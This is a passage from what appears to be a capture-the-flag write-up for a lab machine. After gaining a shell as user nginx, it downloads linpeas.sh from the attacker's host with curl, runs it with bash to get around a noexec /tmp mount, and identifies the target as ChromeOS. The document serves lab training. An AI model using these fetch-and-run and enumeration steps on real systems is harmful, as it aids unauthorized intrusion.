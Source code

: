 Finally, we managed to get access to the remote machine as user `nginx`.

### ChromeOS

By visiting `/home` directory, we find out that there are 2 other users, which are `chronos` and `katie`.
To perform a more thorough enumeration, we can upload `linpeas.sh` to the remote machine and execute it there (note that although the operating system of the machine is listed as other, it is still linux-based, which we can find out through `uname -a`).

```
$ uname -a
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 Intel(R) Xeon(R) CPU E5-2683 v4 @ 2.10GHz GenuineIntel GNU/Linux
```

From your local machine, setup Python http server in the directory where `linpeas.sh` is stored with `python3 -m http.server 9999` and download it on the remote machine in `/tmp` with `curl -O 10.10.14.60:9999/linpeas.sh`. Change the permission of the file to be executable with `chmod +x linpeas.sh`.

Note that we will not be able to execute `linpeas.sh` with `./linpeas.sh` or `sh linpeas.sh` as `/tmp` is a `noexec` partition.

```
$ ./linpeas.sh
/bin/sh: 51: ./linpeas.sh: Permission denied
$ sh ./linpeas.sh
sh: 0: Refusing to exec ./linpeas.sh from noexec mount; see https://chromium.googlesource.com/chromiumos/docs/+/master/security/noexec_shell_scripts.md
```

Interestingly, we are still able to run the script with bash `bash ./linpeas.sh` although we still get the `noexec mount` warning.

From the output of `linpeas.sh`, we managed to determine that the operating system running on the remote machine is ChromeOS.

```
Linux version 5.4.66+ (neverware@cloudready-builder) (Chromium OS 11.0_pre399094_p20200824-r6 clang version 11.0.0 (/var/tmp/portage/sys-devel/llvm-11.0_pre399094_p20200824-r6/work/llvm-11.0_pre399094_p20200824/clang 83080a294ad7d145d758821bcf4354ad0cb7d299)) #1 SMP Tue Dec 22 13:39:49 UTC 2020
```

We can also find this information from `/etc/lsb-release` ([source](https://stackoverflow.com/questions/47838800/etc-lsb-release-vs-etc-os-release))

```
$ cat /etc/lsb-release
GOOGLE_RELEASE=87.3.41
CHROMEOS_RELEASE_BRANCH_NUMBER=85
CHROMEOS_RELEASE_TRACK=stable-channel
CHROMEOS_RELEASE_KEYSET=devkeys
CHROMEOS_RELEASE_NAME=Chromium OS
CHROMEOS_AUSERVER=https://cloudready-free-update-server-2.neverware.com/update
CHROMEOS_RELEASE_BOARD=chromeover64
CHROMEOS_DEVSERVER=https://cloudready-free-update-server-2.neverware.com/
CHROMEOS_RELEASE_BUILD_NUMBER=13505
CHROMEOS_CANARY_APPID={90F229CE-83E2-4FAF-8479-E368A34938B1}
CHROMEOS_RELEASE_CHROME_MILESTONE=87
CHROMEOS_RELEASE_PATCH_NUMBER=2021_01_15_2352
CHROMEOS_RELEASE_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_BOARD_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_RELEASE_BUILD_TYPE=Developer Build - neverware
CHROMEOS_RELEASE_VERSION=87.3.41
CHROMEOS_RELEASE_DESCRIPTION=87.3.41 (Developer Build - neverware) stable-channel chromeover64
```
